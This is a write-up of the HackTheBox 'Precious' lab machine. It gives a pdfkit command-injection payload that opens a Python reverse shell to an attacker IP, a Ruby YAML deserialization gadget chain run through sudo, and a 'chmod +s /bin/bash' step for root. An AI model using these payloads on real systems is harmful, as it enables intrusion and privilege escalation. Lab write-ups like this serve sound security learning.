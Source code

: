 ```yaml
---
title: "HackTheBox: Precious"
collection: publications
permalink: /publication/precious
excerpt: 'This is a free machine from HackTheBox'
date: 2023-03-24
venue: '03-24'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/precious.png)

**LINK:** [precious](https://app.hackthebox.com/machines/Precious)

---

## Enumeration : 

* Let's scan the target 

![precious1](/images/precious1.png)

* The scan shows that we have 2 open ports
* Port 80 redirects to precious.htb
* Let's add precious.htb to our /etc/hosts
* We have no subdomains or directories, so let's focus on the web server
* The web server offers a service that convert web pages into pdf files
* Let's start a web server on our machine

![precious2](/images/precious2.png)

* Let's enter the ip address and the port number that our server is running on 

![precious3](/images/precious3.png)

* A pdf file should be downloaded to your machine

![precious4](/images/precious4.png)

* Let's check the metadata of our pdf file using exiftool

![precious5](/images/precious5.png)

* As you can see the pdf file is generated by pdfkit v0.8.6
* After a quick research we found that this version is vulnerable https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

* The package pdfkit is vulnerable to Command Injection where the URL is not properly sanitized
* we can craft a reverse shell using this payload

```bash
http://10.10.16.24/?name=%20 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.2.136",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

![precious6](/images/precious6.png)

* After you submit your payload, you should receive your reverse shell

![precious7](/images/precious7.png)


## Foothold :

* We can't access the user.txt file inside henry's directory

![precious8](/images/precious8.png)

* I found a directory called .bundle inside ruby's directory

![precious9](/images/precious9.png)

* The config file reveals the password for henry

* Let's switch the user to henry 

![precious10](/images/precious10.png)


## Privilege Escalation : 

* Let's check the sudo permissions

![precious11](/images/precious11.png)

* Let's take a look at update_dependencies.rb file

![precious12](/images/precious12.png)

* I noticed that the code uses a YAML.load which is vulnerable to diserialization attacks
* Check this article: https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml

* Let's create a file called dependencies.yml inside henry's directory

```bash
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve 
```

* Run the file

![precious13](/images/precious13.png)

* Add this line to the dependencies.yml file

```bash
"chmod +s /bin/bash"
```

![precious14](/images/precious14.png)

* Run the file 

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![precious15](/images/precious15.png)
